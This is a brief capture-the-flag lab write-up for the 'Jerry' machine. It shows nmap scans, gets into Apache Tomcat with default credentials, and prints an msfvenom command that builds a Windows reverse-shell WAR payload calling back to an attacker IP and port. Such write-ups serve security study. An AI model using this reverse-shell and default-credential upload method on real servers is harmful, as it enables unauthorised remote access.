 # Jerry Writeup

Inital nmap scan... 8080 is open.
```
# Nmap 7.93 scan initiated Mon May 29 17:56:40 2023 as: nmap -Pn -n -p- -T4 -oN inital_scan 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.025s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

# Nmap done at Mon May 29 17:58:08 2023 -- 1 IP address (1 host up) scanned in 88.98 seconds
```

Apache Tomcat is running on 8080.
```
# Nmap 7.93 scan initiated Thu Jun  1 20:56:51 2023 as: nmap -Pn -n -sVC -T4 -p 8080 -oN enum_scan 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.023s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun  1 20:57:04 2023 -- 1 IP address (1 host up) scanned in 13.38 seconds
```

Tomcat is installed, but not configured properly... default credentials allows you in.

File upload can be done with a .war file. Let's make a payload and run a listener.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war > shell.war
```

Open the war file to see what the file will be called.

Copy the name into the URL to 'call' the file, make sure listener is up.

Get root.

